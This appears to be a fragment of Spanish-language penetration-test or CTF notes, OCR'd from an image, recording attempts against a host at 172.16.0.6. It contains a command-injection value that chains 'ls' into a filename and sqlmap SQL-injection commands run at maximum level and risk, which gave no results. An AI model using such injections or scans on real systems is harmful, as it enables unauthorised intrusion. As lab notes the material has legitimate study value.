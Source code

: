 

Contenido de /home/malwareadm/ .elf&ls -al $(dirname $(dirname $(dirname $(dirname `pwd`))))


Probamos:

SqlMap: sin resultados. Probados:

```
sqlmap -u "http://172.16.0.6/samples" --data="username=1&password=2"

sqlmap -u "http://172.16.0.6/samples" --data="username=1&password=2" --dbms=MySQL --random-agent --level=5 --risk=3
```

7F454C46020101
